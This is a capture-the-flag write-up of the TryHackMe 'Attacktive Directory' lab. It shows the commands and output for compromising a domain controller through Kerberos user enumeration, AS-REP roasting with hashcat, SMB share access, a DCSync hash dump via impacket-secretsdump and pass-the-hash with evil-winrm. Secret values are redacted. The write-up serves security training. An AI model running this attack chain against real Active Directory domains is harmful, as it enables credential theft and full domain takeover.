# TryHackMe: Attacktive Directory

!!! info "Authorized educational environment"
    This write-up documents cybersecurity techniques performed exclusively in an authorized TryHackMe training environment. All hosts, accounts, credentials, hashes, flags and data belong to isolated lab systems and are not production resources. Raw secret values are redacted from the rendered text where they are not necessary to understand the methodology; the attack steps, findings and technical conclusions are preserved.

## 1. Challenge Overview

- **Name:** Attacktive Directory
- **Difficulty:** Medium
- **Category:** AD
- **Description:**  
  99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

## 2. Setup

**_`Impacket`_** is a collection of Python classes for working with network protocols. It is a library that developers use to build security tools, but it also comes with a suite of ready-to-use scripts.

- **What it does:** It allows you to "talk" to Windows systems using low-level protocols like SMB, MSRPC, and Kerberos without needing a Windows machine.
- **Common Use:** If you have a password or a hash, you use Impacket scripts (like `psexec.py` or `wmiexec.py`) to remotely execute commands on a target, dump credentials (`secretsdump.py`), or manipulate Kerberos tickets.

**_`BloodHound`_** is an analytical tool (not a library) used to reveal the hidden, often complex relationships within an Active Directory environment.

- **What it does:** It uses graph theory to map out how users, groups, computers, and permissions are connected. It answers the question: "I am a regular user; what is the shortest path of permissions I need to take to become a Domain Admin?"
- **Common Use:** You run a "collector" (SharpHound) on a network to gather data, then you import that data into the BloodHound GUI to visualize attack paths like "User A is a member of Group B, which has Admin rights on Computer C, where a Domain Admin is logged in."

**_`Neo4j`_** is a graph database management system. It is the backend database that powers BloodHound.

- **What it does:** Unlike a traditional spreadsheet-style database (SQL), Neo4j stores data as "Nodes" (entities like Users or Computers) and "Edges" (relationships like `MemberOf` or `HasSession`).
- **Common Use:** You don't usually interact with Neo4j directly during a pentest; instead, you start the Neo4j service so that BloodHound has a place to store and quickly query the massive web of AD connections you've collected.

## 3. Enumeration

**What is NetBIOS?**
NetBIOS (Network Basic Input/Output System) is a legacy service that allows applications on different computers to communicate over a local area network (LAN).

Developed in the 1980s, it wasn't originally a routing protocol; it was just a way for computers to find each other by name (e.g., `OFFICE-PRINTER` or `DESKTOP-01`) rather than by an IP address.

    nmap -sC -sV -p- -T4 --open 10.128.169.188

    Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-30 21:22 +0200
    Nmap scan report for 10.128.169.188
    Host is up (0.065s latency).
    Not shown: 62218 closed tcp ports (reset), 3291 filtered tcp ports (no-response)
    Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Simple DNS Plus
    80/tcp    open  http          Microsoft IIS httpd 10.0
    |_http-server-header: Microsoft-IIS/10.0
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-title: IIS Windows Server
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-30 19:23:21Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local, Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  tcpwrapped
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local, Site: Default-First-Site-Name)
    3269/tcp  open  tcpwrapped
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    | ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
    | Not valid before: 2026-03-29T19:21:40
    |_Not valid after:  2026-09-28T19:21:40
    |_ssl-date: 2026-03-30T19:24:23+00:00; 0s from scanner time.
    | rdp-ntlm-info:
    |   Target_Name: THM-AD
    |   NetBIOS_Domain_Name: THM-AD
    |   NetBIOS_Computer_Name: ATTACKTIVEDIREC
    |   DNS_Domain_Name: spookysec.local
    |   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
    |   Product_Version: 10.0.17763
    |_  System_Time: 2026-03-30T19:24:13+00:00
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-title: Not Found
    |_http-server-header: Microsoft-HTTPAPI/2.0
    9389/tcp  open  mc-nmf        .NET Message Framing
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc         Microsoft Windows RPC
    49665/tcp open  msrpc         Microsoft Windows RPC
    49666/tcp open  msrpc         Microsoft Windows RPC
    49669/tcp open  msrpc         Microsoft Windows RPC
    49672/tcp open  msrpc         Microsoft Windows RPC
    49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49674/tcp open  msrpc         Microsoft Windows RPC
    49678/tcp open  msrpc         Microsoft Windows RPC
    49684/tcp open  msrpc         Microsoft Windows RPC
    49698/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-time:
    |   date: 2026-03-30T19:24:16
    |_  start_date: N/A
    | smb2-security-mode:
    |   3.1.1:
    |_    Message signing enabled and required

### 3.1. What tool will allow us to enumerate port 139/445?

`enum4linux / enum4linux-ng`
This is a wrapper for the Samba tools and is the "go-to" for Linux-based testers targeting Windows/Samba.

- **Command:** `enum4linux -a <target>`
- **What it finds:** Share names, password policies, group memberships, and OS information.

### 3.2. What is the NetBIOS-Domain Name of the machine?

NetBIOS_Domain_Name: `THM-AD`

### 3.3. What invalid TLD (Top-Level Domain) do people commonly use for their Active Directory Domain?

`.local`

## 4. Enumerating Users using Kerberos

**_`Kerbrute`_** is a specialized enumeration and brute-force tool that interacts with the Kerberos protocol (specifically the KDC - Key Distribution Center) rather than LDAP or SMB.

### 4.1. What command within Kerbrute will allow us to enumerate valid usernames?

To enumerate valid usernames using Kerbrute, you use the `userenum` command.



### 4.2. What notable account is discovered? (These should jump out at you)

`svc-admin`

### 4.3. What is the other notable account is discovered? (These should jump out at you)

`backup`

## 5. Abusing Kerberos

`What is ASREPRoasting?`
In a standard Kerberos login, Pre-Authentication is required. This means your computer sends a timestamp encrypted with your password hash to the Domain Controller (DC). The DC decrypts it to prove you are who you say you are before it sends you a Ticket Granting Ticket (TGT).

However, if an account has the attribute "Do not require Kerberos preauthentication" (UF_DONT_REQUIRE_PREAUTH) enabled:

- You (the attacker) send a request (AS-REQ) for a ticket for that username.
- The DC says, "Sure, I don't need proof yet," and sends back an encrypted ticket (AS-REP).
- Part of that ticket is encrypted with the user's password hash. You can now take that "blob" of data home and use a tool like Hashcat or John the Ripper to guess the password until the math matches.

### 5.1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?



`svc-admin`

### 5.2. Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

Based on the Hashcat Examples Wiki and the **$krb5asrep$23$** prefix:
`Kerberos 5 AS-REP etype 23`

### 5.3. What mode is the hash?

`18200`

### 5.4. Now crack the hash with the modified password list provided, what is the user accounts password?

    hashcat -m 18200 hashes.txt Passwords.txt

    $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:<AS_REP_HASH_REDACTED>

    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
    Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:<REDACTED>
    Time.Started.....: Tue Mar 31 00:55:03 2026 (1 sec)
    Time.Estimated...: Tue Mar 31 00:55:04 2026 (0 secs)
    Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
    Guess.Base.......: File (Passwords.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#01........: 77723 H/s (2.88ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 8192/70188 (11.67%)
    Rejected.........: 0/8192 (0.00%)
    Restore.Point....: 4096/70188 (5.84%)
    Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidate.Engine.: Device Generator
    Candidates.#01...: newzealand -> whitey
    Hardware.Mon.#01.: Util: 60%

User account password:  
`<LAB_PASSWORD_REDACTED>`

The password was successfully recovered in the lab. The clear-text value is intentionally omitted from the rendered text because it is not required to demonstrate the cracking workflow or result.

## 6. Back to the basics

### 6.1. What utility can we use to map remote SMB shares?

`smbclient`

### 6.2. Which option will list shares?

`-L`

### 6.3. How many remote shares is the server listing?



`6`

### 6.4. There is one particular share that we have access to that contains a text file. Which share is it?




`backup`

### 6.5. What is the content of the file?



### 6.6. Decoding the contents of the file, what is the full contents?



## 7. Elevating privileges within the domain

**`What is DCSync?`**
DCSync is a technique that mimics the behavior of a Domain Controller (DC). In a healthy Active Directory environment, DCs need to stay in sync with each other. They do this by "replicating" data—sharing updates about users, groups, and, most importantly, password hashes.

An account like backup (in this lab) has been granted specific Replication Permissions. Because it has these rights, it can tell the main Domain Controller: "Hey, I'm a fellow DC. Please sync your database with me."

The Domain Controller, believing the request is legitimate, sends over the requested objects, including the NTLM hashes of every single user in the domain.

### 7.1. What method allowed us to dump NTDS.DIT?



`DRSUAPI` method

`DRSUAPI` stands for the **Directory Replication Service Remote Protocol.**
It is the specific "language" that Windows Domain Controllers use to communicate with each other to keep their databases in sync. When you hear "DCSync," you are essentially hearing about the exploitation of this protocol.

### 7.2. What is the Administrators NTLM hash?

    impacket-secretsdump spookysec.local/backup:<LAB_PASSWORD_REDACTED>@10.128.169.188

---

    Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    Guest:501:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    krbtgt:502:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\skidy:1103:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\breakerofthings:1104:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\james:1105:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\optional:1106:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\sherlocksec:1107:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\darkstar:1108:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\Ori:1109:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\robin:1110:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\paradox:1111:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\Muirland:1112:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\horshark:1113:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\svc-admin:1114:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\backup:1118:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    spookysec.local\a-spooks:1601:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    ATTACKTIVEDIREC$:1000:<LM_HASH_REDACTED>:<NTLM_HASH_REDACTED>:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    Administrator:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    Administrator:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    krbtgt:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    krbtgt:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    krbtgt:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\skidy:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\skidy:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\skidy:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\breakerofthings:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\james:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\james:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\james:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\optional:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\optional:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\optional:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\sherlocksec:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\darkstar:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\darkstar:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\darkstar:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\Ori:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\Ori:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\Ori:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\robin:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\robin:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\robin:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\paradox:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\paradox:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\paradox:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\Muirland:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\Muirland:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\Muirland:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\horshark:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\horshark:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\horshark:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\svc-admin:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\backup:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\backup:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\backup:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    spookysec.local\a-spooks:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:<KERBEROS_KEY_REDACTED>
    ATTACKTIVEDIREC$:des-cbc-md5:<KERBEROS_KEY_REDACTED>
    [*] Cleaning up...

Administrator NTLM hash:  
`<ADMINISTRATOR_NTLM_HASH_REDACTED>`

The DCSync operation successfully recovered the Administrator NTLM credential material in the lab. The raw hash value is intentionally omitted from the rendered text while the account, RID, protocol, output structure and result are preserved.

### 7.3. What method of attack could allow us to authenticate as the user without the password?

**_`Pass-the-Hash`_** (PtH) is a technique where you authenticate to a remote server using a captured NTLM hash instead of the plaintext password.  
It works because the NTLM protocol uses the hash itself as the "secret" during the challenge-response handshake, so the server never needs to see the original password.  
This allows you to bypass the cracking phase entirely and gain immediate access to systems.

### 7.4. Using a tool called Evil-WinRM what option will allow us to use a hash?

_**evil-winrm** -i 10.128.169.188 -u Administrator `-H` <THE_NTLM_HASH>_



## 8. Flag Submission Panel

### Submit the flags for each user account. They can be located on each user's desktop.

#### svc-admin



#### backup



#### Administrator


